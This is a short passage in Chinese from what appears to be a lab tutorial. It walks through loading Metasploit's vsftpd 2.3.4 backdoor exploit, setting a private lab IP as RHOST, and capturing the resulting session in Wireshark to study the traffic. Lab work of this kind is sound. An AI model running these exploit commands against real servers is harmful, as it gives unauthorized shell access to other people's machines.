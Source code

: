 

然后启动 msf 进行攻击，使用 VSFTPD 漏洞

```
use exploit/unix/ftp/vsftpd_234_backdoor
```



设置攻击目标 IP，然后开始攻击

```
set RHOST 10.100.200.135
```



有时候建立不起来连接，多试几次



![img](assets/1586697956700-8ad412c7-28ca-4890-87b0-be7c35efd6ae.png)



使用过滤器 ip.addr==10.100.200.135 过滤一下，可以看到我们连接后执行的命令和返回的结果


